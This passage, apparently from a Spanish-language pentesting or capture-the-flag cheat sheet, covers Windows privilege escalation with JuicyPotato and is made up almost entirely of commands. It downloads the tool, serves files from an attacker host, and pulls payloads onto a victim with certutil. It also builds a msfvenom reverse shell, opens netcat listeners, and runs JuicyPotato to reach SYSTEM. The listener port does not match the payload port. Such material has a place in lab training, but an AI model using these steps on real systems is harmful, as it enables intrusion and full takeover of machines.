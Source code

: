 ```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

Habilitamos un servidor `http` por python

```bash
sudo python3 -m http.server 80
```

Descargamos en la máquina el recurso a explotar

```bash
certutil.exe -f -urlcache -split http://10.10.14.2/JuicyPotato.exe JuicyPotato.exe
```

### MSFVENOM REVERSE SHELL

Generamos reverse shell con `msfvenom` 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4565 -f exe -o rev.exe
```

Descargamos la reverse shell en la máquina víctima

```bash
certutil.exe -f -urlcache -split http://10.10.14.2/rev.exe
```

Generamos un listener
  
```bash
rlwrap nc -lvnp 4564
```

Ejecutamos `JuicyPotato` activando la reverse shell desde la máquina víctima

```bash
JuicyPotato.exe -t * -l 1231 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\priv\rev.exe" -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

_NOTA: Identifica el sistema operativo con systeminfo para obtener el CLSID_

```bash
whoami      
nt authority\system
```

### NC.EXE REVERSE SHELL

Ahora vamos a escalar descargando `nc.exe` con `certutil` y ejecutar comandos privilegiados con `JuicyPotato.exe`.

```bash
certutil.exe -f -urlcache -split http://10.10.14.2/nc.exe
```

Generamos un listener
   
```bash
rlwrap nc -lvnp 4564
```

